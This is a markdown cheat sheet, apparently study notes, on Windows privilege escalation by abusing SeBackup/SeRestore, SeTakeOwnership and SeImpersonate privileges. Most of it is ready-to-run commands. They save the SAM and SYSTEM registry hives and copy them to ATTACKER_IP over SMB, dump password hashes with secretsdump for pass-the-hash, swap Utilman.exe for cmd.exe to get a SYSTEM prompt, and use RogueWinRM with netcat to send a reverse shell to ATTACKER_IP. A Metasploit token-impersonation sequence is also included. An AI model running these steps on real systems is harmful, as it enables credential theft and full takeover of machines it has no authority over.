 #### <mark style="background: #FF5582A6;">Exploiting SeBackup / SeRestore Privileges</mark>:

Privileges such as SeBackup and SeRestore are powerful as they allow users to read and write to any file on the system, bypassing DACL-based access controls. In this scenario, we'll leverage these privileges to extract sensitive information.

1. **<mark style="background: #BBFABBA6;">Extract Registry Hives</mark>:**
   
   ```batch
   C:\> reg save hklm\system C:\Users\accountname\system.hive
   C:\> reg save hklm\sam C:\Users\accountname\sam.hive
   ```

   By saving the SAM and SYSTEM registry hives, we can potentially extract valuable information, including password hashes.

2. **<mark style="background: #BBFABBA6;">Transfer Files to Attacker Machine</mark>:**

   Using Impacket's smbserver.py, we create a simple SMB server to facilitate file transfer.

   ```bash
   user@attackerpc$ mkdir share
   user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username useraccount -password passwordaccount sharedfolder thesharename
   ```

   On Windows Command Prompt, we copy the hive files to the attacker's machine.

   ```batch
   C:\> copy C:\Users\accountname\sam.hive \\ATTACKER_IP\public\
   C:\> copy C:\Users\accountname\system.hive \\ATTACKER_IP\public\
   ```

3. **<mark style="background: #BBFABBA6;">Retrieve Password Hashes</mark>:**

   We use Impacket's secretsdump.py to extract password hashes from the SAM and SYSTEM files.

   ```bash
   user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
   ```

   The output reveals hashed credentials, providing opportunities for a Pass-the-Hash attack.

#### <mark style="background: #FF5582A6;">Exploiting SeTakeOwnership Privilege</mark>:

The SeTakeOwnership privilege allows a user to take ownership of any object on the system, opening avenues for privilege escalation.

1. **<mark style="background: #BBFABBA6;">Take Ownership of Utilman.exe</mark>:**

   ```batch
   C:\> takeown /f C:\Windows\System32\Utilman.exe
   ```

   Taking ownership grants us control over the file, a crucial step in the privilege escalation process.

2. **<mark style="background: #BBFABBA6;">Grant Full Permissions</mark>:**

   ```batch
   C:\> icacls C:\Windows\System32\Utilman.exe /grant ouraccount:F
   ```

   Granting full permissions ensures our control over Utilman.exe, paving the way for replacement.

3. **<mark style="background: #BBFABBA6;">Replace Utilman.exe with cmd.exe</mark>:**

   ```batch
   C:\Windows\System32\> copy cmd.exe utilman.exe
   ```

   By replacing Utilman.exe with cmd.exe, we set the stage for triggering a SYSTEM-level command prompt.

4. **<mark style="background: #BBFABBA6;">Trigger Utilman.exe for SYSTEM Shell</mark>:**

   Lock the screen and click on the "Ease of Access" button, which will execute our replaced `utilman.exe` with SYSTEM privileges.

#### <mark style="background: #FF5582A6;">Exploiting SeImpersonate / SeAssignPrimaryToken Privileges</mark>:

SeImpersonate and SeAssignPrimaryToken privileges enable a process to impersonate other users, providing opportunities for privilege escalation.

1. **<mark style="background: #BBFABBA6;">Upload RogueWinRM Exploit</mark>:**

   Assuming a compromised web application with the necessary privileges, we upload the RogueWinRM exploit.

2. **<mark style="background: #BBFABBA6;">Start Netcat Listener</mark>:**

   ```bash
   user@attackerpc$ nc -lvp 4442
   ```

   Preparing to receive a reverse shell once the exploit is triggered.

3. **<mark style="background: #BBFABBA6;">Trigger RogueWinRM Exploit</mark>:**

   ```batch
   C:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
   ```

   Executing the exploit, intercepting the BITS service connection, and preparing for SYSTEM-level access.

4. **<mark style="background: #BBFABBA6;">Receive SYSTEM Shell</mark>:**

   ```bash
   user@attackerpc$ nc -lvp 4442
   ```

   Receiving a shell with SYSTEM privileges, demonstrating successful exploitation.

Or using the **<mark style="background: #D2B3FFA6;">incognito</mark>** module in msfconsole: (Meterpreter Shell)

```bash
Introduction to Metasploit Incognito Module: Elevate privileges by manipulating Windows tokens.

- Load Incognito module:
  `load incognito` or `use incognito` if needed.

- List available tokens:
  `list_tokens -g`

- Impersonate Administrators token:
  `impersonate_token "BUILTIN\Administrators"`

- Check current user ID after impersonation:
  `getuid`

- Migrate to a process with proper permissions (e.g., services.exe):
  1. List processes: `ps`
  2. Migrate: `migrate PID-OF-PROCESS
```